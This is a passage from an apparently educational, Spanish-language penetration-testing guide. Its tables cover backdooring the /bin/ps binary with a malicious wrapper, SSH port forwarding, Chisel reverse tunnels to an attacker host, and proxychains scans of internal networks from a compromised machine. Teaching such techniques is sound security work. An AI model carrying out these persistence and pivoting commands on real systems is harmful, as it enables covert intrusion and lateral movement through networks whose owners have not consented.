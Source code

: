 #### Modificación de Binarios Legítimos

| Paso                         | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Backup del original          | `cp /bin/ps /bin/ps.bak`             | Preservar funcionalidad original                 |
| Crear wrapper malicioso      | Ver script en sección de código      | Backdoor transparente en comando común          |
| Implementar wrapper          | `mv /tmp/ps_wrapper.sh /bin/ps`      | Interceptación de comandos rutinarios           |

### 4.5 Movimiento Lateral Avanzado

#### SSH Tunneling y Port Forwarding

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Túnel local                  | `ssh -L [puerto_local]:127.0.0.1:[puerto_remoto] user@[IP]` | Acceso a servicios internos via SSH           |
| Túnel remoto                 | `ssh -R [puerto_remoto]:127.0.0.1:[puerto_local] user@[IP]` | Exposición de servicios del host comprometido |
| Túnel dinámico (SOCKS)       | `ssh -D [puerto_local] user@[IP]`    | Proxy SOCKS para enrutamiento de herramientas  |

#### Tabla de Flags - SSH Tunneling

| Flag | Función Académica                               | Fundamento Técnico                                |
|------|-------------------------------------------------|---------------------------------------------------|
| `-L` | Local Port Forwarding                           | Redirección de puerto local a remoto              |
| `-R` | Remote Port Forwarding                          | Redirección de puerto remoto a local              |
| `-D` | Dynamic Port Forwarding (SOCKS proxy)          | Proxy dinámico para múltiples conexiones         |

#### Pivoting con Chisel (Herramienta Moderna)

| Fase                         | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Descarga y preparación       | `wget https://github.com/jpillora/chisel/releases/latest/download/chisel_linux_amd64.gz` | Obtener herramienta de tunneling HTTP          |
| Servidor (atacante)          | `./chisel server --port 9999 --reverse` | Configurar servidor para conexiones reversas    |
| Cliente (host comprometido)  | `./chisel client [IP_atacante]:9999 R:8080:192.168.1.200:80` | Túnel reverso hacia host interno            |

#### Configuración de Proxychains

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Configuración proxy          | `echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf` | Configurar enrutamiento via proxy           |
| Uso con herramientas         | `proxychains nmap -sT -Pn [IP_interno]` | Enrutamiento de tráfico via host comprometido   |
| Uso con curl                 | `proxychains curl http://192.168.1.200` | Acceso a servicios web internos                  |

### 4.6 Búsqueda de Información Sensible

